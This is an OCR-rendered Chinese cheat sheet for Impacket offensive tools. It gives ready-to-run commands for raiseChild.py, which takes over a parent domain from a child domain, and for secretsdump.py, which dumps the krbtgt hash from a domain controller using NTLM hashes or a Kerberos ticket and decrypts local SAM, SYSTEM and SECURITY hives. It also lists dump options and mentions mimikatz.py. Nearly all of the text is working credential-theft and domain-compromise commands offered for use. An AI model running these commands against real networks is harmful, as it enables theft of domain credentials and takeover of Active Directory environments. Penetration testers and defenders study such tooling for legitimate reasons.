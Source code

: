 #### 常用命令

```bash
py -3 raiseChild.py childDomain.net/adminuser:mypwd
```

#### 常用选项

## Windows 密码

### secretsdump.py

#### 常用命令

**基于 NTLM 认证，使用机器用户导出**

```bash
py -3 secretsdump.py -hashes 5f8506740ed68996ffd4e5cf80cb5174:5f8506740ed68996ffd4e5cf80cb5174 "domain/DC\$@DCIP" -just-dc-user krbtgt
```

**基于 Kerberos 票据导出**

```bash
export KRB5CCNAME=ad01.ccache 
py -3 secretsdump.py -k -no-pass AD01.test.com -dc-ip 192.168.111.146 -target-ip 192.168.111.146 -just-dc-user krbtgt
```

**本地解密 SAM**

```bash
py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

#### 常用选项

> \-system SYSTEM SYSTEM 文件  
> \-security SECURITY security 文件  
> \-sam SAM SAM 文件  
> \-ntds NTDS NTDS.DIT 文件  
> \-resumefile RESUMEFILE 待恢复的 NTDS.DIT 转储文件  
> \-outputfile OUTPUTFILE 输出的文件名  
> \-use-vss 使用 vss 卷影替代 DRSUAPI  
> \-rodcNo RODCNO Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)  
> \-rodcKey RODCKEY AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)  
> \-use-keylist 使用 KerberosKeyList 转储 TGS-REQ  
> \-exec-method \[{smbexec,wmiexec,mmcexec}\] 使用 vss 卷影导出时执行命令的方法，分别有 smbexec、wmiexec、mmcexec

### mimikatz.py

这是一个比较鸡肋的功能，需要先在目标机器上用 mimikatz 执行 rpc::server

然后用该脚本进行连接
